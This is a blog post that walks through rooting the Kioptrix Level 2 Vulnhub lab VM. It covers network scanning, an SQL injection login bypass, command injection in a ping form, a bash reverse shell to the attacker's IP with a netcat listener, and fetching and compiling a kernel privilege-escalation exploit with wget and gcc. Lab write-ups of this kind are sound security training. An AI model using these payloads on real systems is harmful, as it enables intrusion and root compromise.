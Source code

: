 ```yaml
---
layout: post
title: "Vulnhub: K1optr1x 2"
categories: vulnhub
author: "dib"
permalink: /vulnhub/kp2/
tags: vulnhub
---
```


> “Never underestimate the determination of a kid who is time-rich and cash-poor.” <br>-- Cory Doctorow, Little Brother

![][1]

You can download this VM at [](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/). Let's start pwning !

### 0x01 Reconnaissance

<details>
  <summary>
    get VM IP address
  </summary>

<pre>
&nbsp;
<b>imd@kali:~$</b> sudo arp-scan 192.168.222.0/24
Interface: eth0, type: EN10MB, MAC: 00:0c:29:30:67:4e, IPv4: 192.168.222.129
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.222.1   00:50:56:c0:00:08       VMware, Inc.
192.168.222.2   00:50:56:e7:41:94       VMware, Inc.
192.168.222.128 00:0c:29:bb:86:18       VMware, Inc.
192.168.222.254 00:50:56:f1:d9:90       VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 2.000 seconds (128.00 hosts/sec). 4 responded

</pre>
</details>

Target IP: 192.168.222.128

### 0x02 Scanning

<details>
  <summary>
    nmap full scan
  </summary>

<pre>
&nbsp;
<b>imd@kali:~$</b> nmap -Pn -n -A -p- 192.168.222.128
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-16 10:08 EST
Nmap scan report for 192.168.222.128
Host is up (0.0096s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|_  1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-08T00:10:47
|_Not valid after:  2010-10-08T00:10:47
|_ssl-date: 2020-12-16T13:00:04+00:00; -2h08m58s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
854/tcp  open  status   1 (RPC #100024)
3306/tcp open  mysql    MySQL (unauthorized)

Host script results:
|_clock-skew: -2h08m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.06 seconds

</pre>
</details>

Found 7 open ports: 22, 80, 111, 443, 631, 854, 3306. Server is running Apache httpd 2.0.52 on port 80/tcp, MySQL on port 3306/tcp, CUPS/1.1 on port 631/tcp. Port 80  is always an interesting port, let's check it on a web browser.

### 0x03 Exploitation

![][2]

It's a web html/php based login form. Since we know there's a MySQL server running on the backend, I tried basic SQL injection methods to bypass the login, and `admin' or 1=1#` worked. The result of the SQL query looks like this: `SELECT * FROM users WHERE username='admin' or 1=1#' AND password=''` and the pound/sharp/hashtag whatever you call it made the next parameters commented out.

![][3]

As we can see here, there's a ping command prompt which might be vulnerable to a [Command Injection](https://www.owasp.org/index.php/Command_Injection). 

![][4]

We used the semicolon to run any shell command after the first command executed. If this is the case, we can run a reverse shell too. There are many available cheat sheets on the web and one of the most known website is pentestmonkey. for example, a bash reverse shell. I tried to inject another command `127.0.0.1 ; whoami` and found out it was indeed vulnerable to a command injection.

![][5]

I've explored a bit to see what other details I could extract, then I attempted to spawn a [reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) with a bash reverse shell command `; bash -i >& /dev/tcp/192.168.222.129/9001 0>&1` and before doing this, you will need to run netcat first to listen to incoming connections on our machine. `nc -lvp 9001`

<details>
  <summary>low-priv shell access</summary>

<pre>
&nbsp;
<b>imd@kali:~$</b> nc -lvp 9001
listening on [any] 9001 ...
192.168.222.128: inverse host lookup failed: Unknown host
connect to [192.168.222.129] from (UNKNOWN) [192.168.222.128] 32771
bash: no job control in this shell
<b>bash-3.00$</b> whoami
apache
<b>bash-3.00$</b> uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
<b>bash-3.00$</b> ls
index.php
pingit.php
<b>bash-3.00$</b> lsb_release -a
LSB Version:	:core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID:	CentOS
Description:	CentOS release 4.5 (Final)
Release:	4.5
Codename:	Final
bash-3.00$ ls
index.php
pingit.php
<b>bash-3.00$</b> cat index.php

</pre>
</details>

Interesting. let's see what's inside the source code of index.php

<details>
  <summary>index.php source code</summary>
{% highlight php %}
<?php
	mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
	//print "Connected to MySQL<br />";
	mysql_select_db("webapp");
	
	if ($_POST['uname'] != ""){
		$username = $_POST['uname'];
		$password = $_POST['psw'];
		$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
		//print $query."<br>";
		$result = mysql_query($query);

		$row = mysql_fetch_array($result);
		//print "ID: ".$row['id']."<br />";
	}

?>
<html>
<body>
<?php
if ($row['id']==""){
?>
<form method="post" name="frmLogin" id="frmLogin" action="index.php">
	<table width="300" border="1" align="center" cellpadding="2" cellspacing="2">
		<tr>
			<td colspan='2' align='center'>
			<b>Remote System Administration Login</b>
			</td>
		</tr>
		<tr>
			<td width="150">Username</td>
			<td><input name="uname" type="text"></td>
		</tr>
		<tr>
			<td width="150">Password</td>
			<td>
			<input name="psw" type="password">
			</td>
		</tr>
		<tr>
			<td colspan="2" align="center">
			<input type="submit" name="btnLogin" value="Login">
			</td>
		</tr>
	</table>
</form>
<?php
	} //END of login form
?>

<!-- Start of HTML when logged in as Administator -->
<?php
	if ($row['id']==1){
?>
	<form name="ping" action="pingit.php" method="post" target="_blank">
		<table width='600' border='1'>
		<tr valign='middle'>
			<td colspan='2' align='center'>
			<b>Welcome to the Basic Administrative Web Console<br></b>
			</td>
		</tr>
		<tr valign='middle'>
			<td align='center'>
				Ping a Machine on the Network:
			</td>
				<td align='center'>
				<input type="text" name="ip" size="30">
				<input type="submit" value="submit" name="submit">
			</td>
			</td>
		</tr>
	</table>
	</form>


<?php
}
?>
</body>
</html>
{% endhighlight %}
</details>

We immediately saw credentials on the source code. and we'll see if we can access MySQL.

<details>
  <summary>MySQL login attempt</summary>

<pre>
&nbsp;
<b>bash-3.00$</b> mysql -u john -p
Enter password: hiroshima
ls
ls
ls
^C

</pre>
</details>

Nothing shows up. What could be the problem? the system is not allowing us to connect. It means that the password we're using is possibly already an old password. That's why it is not giving us a shell output. At least we tried. Let's move on and look for something else.

<details>
  <summary>sudo and suid permissions</summary>

<pre>
&nbsp;
<b>bash-3.00$</b> sudo -l
Password:

<b>bash-3.00$</b> 
<b>bash-3.00$</b> find / -perm -u=s -type f 2>/dev/null
/sbin/unix_chkpwd
/sbin/pam_timestamp_check
/sbin/pwdb_chkpwd
/usr/sbin/ccreds_validate
/usr/sbin/userhelper
/usr/sbin/userisdnctl
/usr/sbin/suexec
/usr/sbin/usernetctl
/usr/libexec/openssh/ssh-keysign
/usr/libexec/pt_chown
/usr/kerberos/bin/ksu
/usr/lib/squid/pam_auth
/usr/lib/squid/ncsa_auth
/usr/bin/chsh
/usr/bin/rcp
/usr/bin/sudo
/usr/bin/chage
/usr/bin/crontab
/usr/bin/rlogin
/usr/bin/rsh
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/lppasswd
/usr/bin/sg
/usr/bin/passwd
/bin/mount
/bin/traceroute6
/bin/traceroute
/bin/umount
/bin/ping6
/bin/ping
/bin/su

</pre>
</details>

Looking at the files with suid bit, we don't know which one is vulnerable and which one is not. In that case, we need to check out the priv esc suid on [gtfobins](https://gtfobins.github.io/). If something is here, that means it is vulnerable. We found none after checking all the files.

<details>
  <summary>crontabs</summary>

<pre>
&nbsp;
<b>bash-3.00$</b> cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root
HOME=/

\# run-parts
01 * * * * root run-parts /etc/cron.hourly
02 4 * * * root run-parts /etc/cron.daily
22 4 * * 0 root run-parts /etc/cron.weekly
42 4 1 * * root run-parts /etc/cron.monthly

<b>bash-3.00$</b> crontab -l
no crontab for apache

</pre>
</details>

How bout crontabs? Yep, we found none. There is no scheduled crontab for apache user. So what's next? We know we got a shell but with a low privilege. We found out this is an apache shell. We know this is running CentOS. So how about we try to find a kernel exploit to linux 2.6.9.EL. A quick google search of "<mark>linux 2.6.9-55.EL centos exploit</mark>" leads us to this first link: https://www.exploit-db.com/exploits/9542 or searching from searchsploit command on your machine.

<details>
  <summary>transfer and download exploit</summary>

<pre>
&nbsp;
<b>imd@kali:~/ctfs/vulnhub/kioptrix2$</b> searchsploit centos 4.5
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Co | linux/local/9479.c
Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS  | linux_x86/local/9542.c
Linux Kernel 3.14.5 (CentOS 7 / RHEL) - 'libfute | linux/local/35370.c
------------------------------------------------- ---------------------------------
Shellcodes: No Results

<b>imd@kali:~/ctfs/vulnhub/kioptrix2$</b> searchsploit -m 9542
  Exploit: Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1)
      URL: https://www.exploit-db.com/exploits/9542
     Path: /usr/share/exploitdb/exploits/linux_x86/local/9542.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /home/imd/ctfs/vulnhub/kioptrix2/9542.c

<b>imd@kali:~/ctfs/vulnhub/kioptrix2$</b> sudo python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
192.168.222.128 - - [23/Dec/2020 13:19:10] "GET /9542.c HTTP/1.0" 200 -

<b>bash-3.00$</b> cd /tmp
<b>bash-3.00$</b> wget http://192.168.222.129/9542.c
--11:24:27--  http://192.168.222.129/9542.c
           => `9542.c'
Connecting to 192.168.222.129:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,643 (2.6K) [text/plain]

  0K ..                                                    100%    5.04 MB/s

11:24:27 (5.04 MB/s) - `9542.c' saved [2643/2643]

</pre>
</details>

In order to download the exploit from attacker box, we need to host the exploit and we did this using python2. Download the exploit from the victim's machine in /tmp directory.

### 0x04 Gaining root access

<details>
  <summary>compile and gain root access</summary>
  
<pre>
&nbsp;
<b>bash-3.00$</b> ls
9542.c
<b>bash-3.00$</b> gcc 9542.c -o exploit
9542.c:109:28: warning: no newline at end of file
<b>bash-3.00$</b> ls
9542.c
exploit
<b>bash-3.00$</b> ./exploit
sh: no job control in this shell
<b>sh-3.00#</b> whoami
root
<b>sh-3.00#</b> id
uid=0(root) gid=0(root) groups=48(apache)
<b>sh-3.00#</b> hostname
kioptrix.level2

</pre>
</details>

We used gcc to compile the c file, named the compiled file 'exploit' and ran it and now we are root! Congratulations..K1optr1x 2 -- rooted!



[1]: https://i.imgur.com/lBO1ezp.png
[2]: https://i.imgur.com/JWKV9N4.png
[3]: https://i.imgur.com/Vl7waEv.png
[4]: https://i.imgur.com/lrVIqAN.png
[5]: https://i.imgur.com/XokJzFd.png


